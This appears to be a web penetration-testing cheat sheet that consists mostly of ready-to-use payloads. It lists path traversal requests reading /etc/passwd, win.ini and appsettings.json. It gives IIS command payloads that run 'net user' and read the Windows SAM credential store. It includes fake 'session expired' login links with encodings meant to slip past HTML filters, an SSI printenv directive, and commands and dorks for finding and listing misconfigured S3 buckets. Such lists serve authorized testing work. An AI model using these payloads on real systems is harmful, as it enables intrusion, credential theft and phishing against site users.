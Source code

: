 /file.aspx?file=../../../../etc/passwd (for Linux systems)
/file.aspx?file=../../../../windows/win.ini (for Windows systems)
/file.aspx?file=../../../../appsettings.json (for .NET-based apps)

- Windows LFI
  - \\localhost\c$\Windows/debug/NetSetup.log

## MS and IIS equivalents


```json
//use these for requests to IIS servers

{
  "cmd": "net user"
}


{
  "cmd": "type C:\\Windows\\System32\\config\\SAM"
}
```

## HTML injection 
- below are ways to dodge the filters

```js

<a href="http://bing.com">YOUR SESSION HAS EXPIRED. Click here to login</a> 
<a href="https://google.com/">Click here to reset to reset password</a>
<a href="https://google-web-pen-testing.vercel.app/">Your session has expired. Click here to login</a>

&lt;a href="https://google.com/"&gt;Click here to reset password&lt;/a&gt;

//json safe
&lt;a href=\"https://google.com/\"&gt;Click here to reset password&lt;/a&gt; 

%3Ca%20href%3D%22https%3A%2F%2Fgoogle.com%2F%22%3EClick%20here%20to%20reset%20password%3C%2Fa%3E
```

## Rare 
- SSI
    - <!--#printenv -->

## AWS

### AWS buckets
- testing guide: https://blog.intigriti.com/hacking-tools/hacking-misconfigured-aws-s3-buckets-a-complete-guide 
- regex to find buckets `\.s3\.amazonaws\.com\/?`
  - or look for: `x-amz-bucket-region` `x-amz-request-id` `x-amz-id-2`
  - google dork: `site:.s3.amazonaws.com "company"`
  - Automated tools such as S3enum and cloud_enum can help you enumerate AWS S3 buckets
- bad configued bucket check cmds
  - `aws s3 ls s3://{BUCKET_NAME} --no-sign-request`
